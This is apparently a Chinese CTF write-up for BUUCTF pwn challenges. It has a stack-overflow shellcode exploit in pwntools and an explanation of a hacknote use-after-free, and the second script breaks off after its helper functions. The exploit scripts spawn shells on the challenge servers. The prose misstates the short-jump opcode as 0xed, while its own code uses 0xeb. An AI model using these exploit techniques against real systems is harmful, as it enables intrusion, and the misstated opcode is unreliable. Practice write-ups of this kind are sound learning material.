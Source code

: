 简化之后，剩余部分的机器码长度为36字节，正好能够填充满返回地址之前的36字节。
而对于后面的9个字节，首先需要压低esp，防止shellcode被覆盖：``sub esp, 0x100;``，这条指令占6字节。还有3个字节足够我们进行一次短转移。
在asm函数中不允许使用诸如``jmp short ptr 0x40;``这样的指令，只能通过标号来写jmp指令。但是我们通过分析jmp指令的结构不难发现，<font color=red>**jmp短转移指令占2字节，第1个字节固定为0xed，第二个字节为转移偏移，即距离本条指令的偏移位置。如在0x100000处有一条jmp 0x40指令，其跳转到的地址是：0x100042，因为这里是从这条指令的后面计算偏移的，也就是以0x100002为基准计算偏移。**</font>由此我们可以计算得到转移的偏移应该为-48，转为有符号8位二进制数为0xD0。因此我们的shellcode结构就是：前36字节为shellcode；37\~40字节为返回地址（jmp esp的地址）；41\~46字节为``sub esp, 0x100;``指令；47~48字节为``jmp short ptr -48;``指令，这样可以在esp减小之后立刻开始执行shellcode。我们的49个字节使用了48个字节。

```python
from pwn import *
context(arch='i386', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 28012)
elf = ELF('./pwn')

shellcode = 'push 0x68;' \
            'push 0x732f2f2f;' \
            'push 0x6e69622f;' \
            'mov ebx, esp;' \
            'push 0x6873;' \
            'xor ecx, ecx;' \
            'push ecx;' \
            'push 4;' \
            'pop ecx;' \
            'add ecx, esp;' \
            'mov ecx, esp;' \
            'xor edx, edx;' \
            'push SYS_execve;' \
            'pop eax;' \
            'int 0x80;' \

payload = asm(shellcode)
payload += p32(0x8048554)
payload += asm('sub esp, 0x100;')   # 6 bytes
payload += b'\xeb\xD0'  # jmp short ptr -48
print(len(payload))
print(payload)
io.sendline(payload)
io.interactive()
```
# buu069-pwnable_hacknote
常规堆排布，没有释放指针，可以利用UAF申请到一个chunk控制头，然后改写里面的指针从而在调用print功能的时候执行其他功能。

![](2.png)
每一次申请都会申请上面的这个结构体和一个存放字符串的chunk。申请两个chunk大小为0x20的结构，然后释放，再申请一个chunk大小为0x8的结构就可以控制先前释放的一个结构的控制结构体（也就是上面的这个结构体）。print_func不动，把打印地址改为got表获取libc地址，然后释放重新分配，把print_func改成system地址，后面接上'||sh'来执行system('sh')。（前面的部分是system地址肯定无法执行，加||使得能够执行后面的内容）

```python
from pwn import *
from LibcSearcher import *
context(arch='i386', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26342)
elf = ELF('./pwn')

def add(size, content):
    io.sendlineafter(b'Your choice :', b'1')
    io.sendlineafter(b'Note size :', str(size).encode())
    io.sendafter(b'Content :', content)

def delete(index):
    io.sendlineafter(b'Your choice :', b'2')
```